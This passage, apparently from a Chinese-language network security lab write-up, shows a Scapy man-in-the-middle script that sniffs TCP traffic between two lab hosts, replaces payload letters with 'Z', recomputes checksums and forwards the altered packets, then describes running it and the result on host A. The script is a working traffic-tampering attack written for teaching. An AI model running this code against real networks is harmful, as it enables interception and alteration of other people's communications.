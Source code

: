 ```python
        del(newpkt[TCP].payload)  # 删除 TCP 层的有效载荷字段
        del(newpkt[TCP].chksum)  # 删除 TCP 校验和字段，重计算校验和

        # 如果数据包包含有效载荷
        if pkt[TCP].payload:
            data = pkt[TCP].payload.load  # 获取 TCP 数据包的有效载荷
            data = data.decode()  # 将字节数据解码为字符串
            newdata = re.sub(r'[a-zA-Z]', r'Z', data)  # 使用正则表达式将字母替换为 "Z"
            print(data + " ==> " + newdata)  # 打印原数据和修改后的数据进行对比
            send(newpkt/newdata, verbose=False)  # 重新构建数据包并发送，替换有效载荷
        else:
            send(newpkt, verbose=False)  # 如果没有有效载荷，直接发送新的数据包

    # 检查数据包是否来自主机 B，目标是主机 A
    elif pkt[IP].src == IP_B and pkt[IP].dst == IP_A:
        newpkt = IP(bytes(pkt[IP]))  # 复制原始的 IP 层
        del(newpkt.chksum)  # 删除原 IP 校验和字段，重计算校验和
        del(newpkt[TCP].chksum)  # 删除 TCP 校验和字段，重计算校验和
        send(newpkt, verbose=False)  # 直接转发数据包，不修改内容

# 定义嗅探过滤器，捕获从 A 到 B 或从 B 到 A 的 TCP 数据包
f = 'tcp and (ether src 02:42:0a:09:00:05 or ether src 02:42:0a:09:00:06)'

# 启动嗅探器，捕获并处理数据包
print("启动嗅探并修改数据包...")
pkt = sniff(filter=f, prn=spoof_pkt)  # 过滤条件：捕获 IP 地址为 10.9.0.5 或 10.9.0.6 的 TCP 数据包，并交给 spoof_pkt 进行处理

```

在 $hostM$ 中启动`mitm.py`，同时在 $hostA$ 中输入任意字符：

![2-9-18](../image/2-9-18.png)

此时在 $hostA$ 上：

![2-9-19](../image/2-9-19.png)

---
